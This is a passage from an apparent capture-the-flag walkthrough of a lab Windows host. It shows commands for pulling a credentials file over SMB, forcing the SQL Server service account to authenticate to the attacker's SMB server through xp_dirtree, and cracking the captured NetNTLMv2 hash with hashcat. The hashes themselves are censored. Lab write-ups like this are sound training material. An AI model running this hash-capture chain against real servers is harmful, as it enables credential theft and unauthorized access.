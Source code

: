 Lets download the file using smbclient  

```bash
smbclient //10.10.11.202/Public
get "SQL Server Procedures.pdf"
```

 Great the file contains some credentials to connect to the sqlserver

# Foothold

## Exploitation

### SQLServer: Steal NetNTLM Hash

After connecting to the sqlserver using impacket-mssqlclient I discovered that I'm able to use xp_dirtree

**Enumeration**  
```
SQL> EXEC sp_helprotect 'xp_dirtree';
Owner    Object                 Grantee        Grantor   ProtectType   Action           Column   

------   --------------------   ------------   -------   -----------   --------------   ------   

sys      xp_dirtree             public         dbo       b'Grant     '   Execute          .        
```

**Exploitation**  

First I setup a smbserver on our attacking machine

```bash
impacket-smbserver -smb2support smb ./smb
```

Next part is to execute xp_dirtree to get a connection on our smbshare

```bash
EXEC master.sys.xp_dirtree '\\10.10.14.36\smb'
```

Got the hash  

```bash
[*] Incoming connection (10.10.11.202,52872)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:CENSORED:CENSORED
```

Cracking the hash is also working just fine  

```bash
hashcat -m 5600 -a 0 hash /usr/share/wordlists/rockyou.txt
SQL_SVC::sequel:CENSORED:CENSORED:CENSORED:CENSORED
```
